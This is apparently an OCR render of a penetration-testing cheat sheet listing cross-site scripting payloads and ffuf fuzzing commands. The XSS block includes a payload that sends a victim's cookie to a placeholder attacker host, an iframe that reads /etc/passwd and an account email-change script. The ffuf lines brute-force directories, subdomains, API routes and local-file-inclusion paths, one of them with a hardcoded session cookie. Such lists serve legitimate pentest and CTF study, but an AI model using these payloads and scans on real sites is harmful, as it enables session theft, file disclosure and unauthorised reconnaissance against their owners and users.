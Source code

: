 #### Cross-Site Scripting (XSS)

```c
<sCrIpt>alert(1)</ScRipt>
<script>alert('XSS');</script>
<script>alert(document.cookies)</script>
<script>document.querySelector('#foobar-title').textContent = '<TEXT>'</script>
<script>fetch('https://<RHOST>/steal?cookie=' + btoa(document.cookie));</script>
<script>user.changeEmail('user@domain');</script>
<iframe src=file:///etc/passwd height=1000px width=1000px></iframe>
<img src='http://<RHOST>'/>
```

#### ffuf

```c
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fs <NUMBER> -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fw <NUMBER> -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ -mc 200,204,301,302,307,401 -o results.txt
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<RHOST>/ -H "Host: FUZZ.<RHOST>" -fs 185
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://<RHOST>/backups/backup_2020070416FUZZ.zip
```

##### API Fuzzing

```c
ffuf -u https://<RHOST>/api/v2/FUZZ -w api_seen_in_wild.txt -c -ac -t 250 -fc 400,404,412
```

##### Searching for LFI

```c
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349
```

##### Fuzzing with PHP Session ID

```c
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt  -u "http://<RHOST>/admin/FUZZ.php" -b "PHPSESSID=a0mjo6ukbkq271nb2rkb1joamp" -fw 2644
```

##### Recursion

```c
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://<RHOST>/cd/basic/FUZZ -recursion
```

##### File Extensions

```c
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://<RHOST>/cd/ext/logs/FUZZ -e .log
```
